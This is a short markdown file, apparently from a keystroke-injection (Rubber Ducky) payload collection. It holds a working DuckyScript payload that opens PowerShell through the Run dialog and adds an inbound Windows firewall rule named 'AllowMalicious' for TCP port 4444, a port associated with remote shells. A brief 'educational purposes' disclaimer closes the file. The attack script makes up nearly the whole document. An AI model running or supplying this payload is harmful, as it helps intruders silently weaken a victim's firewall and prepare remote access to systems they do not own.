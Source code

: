 # Manipulating Windows Firewall Rules to Allow Malicious Traffic

Creates a firewall rule allowing inbound traffic on port 4444, enabling external access.

```
DELAY 500
GUI r
DELAY 200
STRING powershell -Command "New-NetFirewallRule -DisplayName 'AllowMalicious' -Direction Inbound -Protocol TCP -LocalPort 4444 -Action Allow"
ENTER
```

> Disclaimer: This script is for educational purposes and should only be used in environments where you have explicit authorization to perform penetration testing. Always follow ethical guidelines and laws governing cybersecurity practices.